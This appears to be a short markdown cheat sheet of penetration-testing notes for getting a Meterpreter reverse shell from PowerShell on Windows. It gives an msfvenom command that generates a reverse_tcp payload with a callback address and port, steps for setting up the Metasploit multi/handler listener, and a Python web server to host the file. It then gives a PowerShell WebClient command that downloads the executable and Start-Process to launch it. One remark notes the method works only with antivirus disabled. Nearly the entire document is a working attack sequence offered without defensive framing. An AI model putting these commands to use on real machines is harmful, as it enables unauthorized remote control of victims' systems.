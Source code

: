 ## Powershell to Meterpreter Shell
- only if AV is disabled

- **Msfvenom**
  -  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.4 LPORT=5555 -f exe > sh.exe`
  -  chmod +x
  -  set up metasploit listener
  -  msfconsole
  -  search exploit/multi/handler
  -  use 6
  -  set payload windows/meterpreter/reverse_tcp
  -  set lport (match what is in payload)
  -  set lhost
  -  run
  -  host webserver where file located
    - `python -m SimpleHTTPServer 80`   

- **Powershell**
  - from current powershell
  - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.0.0.10:80/shell-name.exe', 'shell-name.exe')"`
    - Example:
      - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.0.0.10:80/shell.exe', 'shell.exe')"`
  - dir to make sure in there
  - `Start-Process "shell-name.exe"`
  - if not working `cd C:\Windows\Temp`
